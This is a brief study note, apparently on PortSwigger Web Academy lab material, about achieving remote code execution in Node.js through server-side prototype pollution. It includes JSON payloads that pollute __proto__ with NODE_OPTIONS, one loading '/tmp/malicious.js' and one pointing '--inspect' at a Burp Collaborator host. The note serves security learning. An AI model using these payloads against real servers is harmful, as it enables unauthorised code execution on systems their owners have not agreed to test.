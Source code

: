 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/rce-via-vulnerable-requests/"}
---
```



---

There are a number of potential command execution sinks in Node, many of which occur in the `child_process` module. The best way to identify these requests is by polluting the prototype with a payload that triggers an interaction with **Burp Collaborator** when called.

The `NODE_OPTIONS` environment variable enables you to define a string of command-line arguments that should be used by default whenever you start a new Node process. As this is also a property on the `env` object, you can potentially control this via prototype pollution if it is undefined.

```json
"__proto__": {
    "env": {
	    "NODE_OPTIONS": "--require /tmp/malicious.js"
	}
}
```

Some of Node's functions for creating new child processes accept an optional `shell` property. We can abuse this together with the **Burp Collaborator** like:

```json
"__proto__": { 
	"shell":"node", 
	"NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com" }
```

